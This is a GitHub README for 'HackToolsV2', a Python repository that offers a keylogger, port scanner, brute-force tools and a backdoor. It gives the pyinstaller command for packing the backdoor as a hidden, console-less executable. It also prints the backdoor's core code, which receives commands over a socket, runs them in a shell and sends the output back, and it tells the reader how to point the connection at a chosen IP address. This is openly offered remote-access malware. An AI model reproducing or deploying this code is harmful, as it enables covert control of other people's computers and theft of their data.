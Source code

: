 # HackToolsV2
Python Keylogger PortScanner BruteForce and basic hack tools.(new ones will come soon)
![Ekran Alıntıs2ı](https://user-images.githubusercontent.com/69467096/112681821-46388780-8e80-11eb-89ab-7d1fc21476ea.PNG)
![Ekran Alıntısı](https://user-images.githubusercontent.com/69467096/112681920-66684680-8e80-11eb-8e59-552d65c3f1fb.PNG)

[![forthebadge made-with-python](http://ForTheBadge.com/images/badges/made-with-python.svg)](https://www.python.org/)

## To make exe file write this code block to terminal
```python
pyinstaller backdoor.py --onefile --noconsole
```
### Additional codes:
#command = reliable_recv()
#message = 'Hello world'
#s.send(message.encode())

#s.recv(1024)
#execute = subprocess.Popen(command, shell = True, stdout=subprocess.PIPE,stderr=subprocess.PIPE,stdin=subprocess.PIPE)

#result = execute.stdout.read() + execute.stderr.read()
#reliable_send(result)
```python
command = reliable_recv()
message = 'Hello world'
s.send(message.encode())

s.recv(1024)
execute = subprocess.Popen(command, shell = True, stdout=subprocess.PIPE,stderr=subprocess.PIPE,stdin=subprocess.PIPE)

result = execute.stdout.read() + execute.stderr.read()
reliable_send(result)
```
![Ekran Alıntısı](https://user-images.githubusercontent.com/69467096/112891291-a4fc3c00-90e0-11eb-81bd-604dd01c9b0d.PNG)
### due to some complications in server.py and backdoor.py You must replace the code blocks that write 127.0.0.1 with the local IP address.
# LIKE THIS

```python
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sck.bind(('127.0.0.1',5555))

s.connect(('127.0.0.1',5555))
```
# TO THIS
```python
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sck.bind(('192.1.2.12',5555))

s.connect(('192.1.2.12',5555))
```
## about deactivated lines of code
### some processes develop differently in your Linux and Windows operating systems.
### programs have been deactivated because some processes cannot run at the same time even if they are written in both.
### You can customize the lines of code you can also activate the startup codes I use to see if it works.

